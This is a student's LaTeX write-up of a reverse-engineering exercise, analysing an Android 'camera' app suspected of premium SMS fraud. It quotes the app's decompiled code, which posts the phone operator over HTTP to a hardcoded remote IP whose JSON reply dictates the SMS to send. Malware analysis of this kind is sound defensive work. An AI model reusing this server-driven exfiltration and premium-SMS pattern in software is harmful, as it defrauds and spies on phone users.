 \section{Reverse Engineering Android Apps - DEX Bytecode}
\subsection{Exercise 2 - Reverse Engineer the DEX}
In this excercise I had to determine if the app is doing premium SMS fraud, that is, using the client device, sends messages to premium numbers. I've started by analyzing source code of each of the entry points.

While analyzing the \texttt{com.cp.camera.Loading} activity, I've encountered
first possible situation where fraud could be performed - the \texttt{onCreate} method.

\subsubsection{onCreate method analysis}

This method performs multiple suspicious operations. At first it reads the phone operator using \texttt{TelephonyManager}, then it performs a POST request to some untrusted server with the operator information. Another important problem is that the request is being done over HTTP protocol, which is very insecure due to lack of encryption. Chunk of source code with the call is displayed on listing \ref{fig:0001}.

\begin{minipage}{\linewidth}
  \begin{lstlisting}[
    style=cpp,
    caption={Suspicious call with operator data.},
    captionpos=b,
    label={fig:0001}
  ]
  HttpURLConnection urlConnection =
     (HttpURLConnection) new URL(
       "http://139.59.107.168:8088/appsharejson?code=" + code
     ).openConnection();
  \end{lstlisting}
  \end{minipage}

Application expects the data returned by the server to be a JSON encoded object with the following keys: \texttt{content, rule, service, code, button, imei, imeicontent}. In the next few steps apps asks user for permissions and finally tries to send a message. The content of message depends only on the data returned from the server. The server probably controls the content of message that will be send from customer device based on the operator. (Probably not all operators supports every premium service and premium services can change over time so this can make the attacker dynamically modify details without hardcoding some values on device)


